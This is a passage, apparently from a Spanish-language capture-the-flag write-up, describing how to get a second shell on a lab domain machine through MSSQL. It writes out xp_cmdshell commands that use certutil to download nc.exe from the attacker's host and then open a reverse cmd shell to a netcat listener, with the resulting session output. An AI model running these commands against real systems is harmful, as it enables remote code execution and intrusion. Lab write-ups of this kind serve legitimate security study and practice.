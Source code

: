 ```bash
Meterpreter     : x64/windows
```
Ya tenemos una sesión de **Meterpreter**.

<br>

<h3 id="BinarioNC">Utilizando Binario nc.exe para Obtener Sesión de Máquina AD2</h3>

También podemos obtener una sesión normal con **rlwrap** utilizando el binario **nc.exe**.

Dentro de **Kali** ya tenemos este binario, solamente es cuestión de buscarlo y copiarlo en nuestro directorio de trabajo:
```bash
locate nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

cp /usr/share/windows-resources/binaries/nc.exe .
```

Ya solo debemos mandar este binario a la **máquina AD2**, de la misma forma que hicimos con la **Reverse Shell de Meterpreter**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "certutil.exe -urlcache -split -f http://Tu_IP/nc.exe C:\Temp\nc.exe"
output                                                
...
CertUtil: -URLCache command completed successfully.
```
Ya lo cargamos.

Abre un listener con **rlwrap** y **netcat**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Ejecuta el binario **nc.exe** indicándole que mande una **CMD** a tu máquina:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "C:\Temp\nc.exe -e cmd Tu_IP 443"
```

Observa la **netcat**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.89] 59846
Microsoft Windows [Version 10.0.20348.2113]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
darkzero-ext\svc_sql
```
Estamos dentro otra vez.
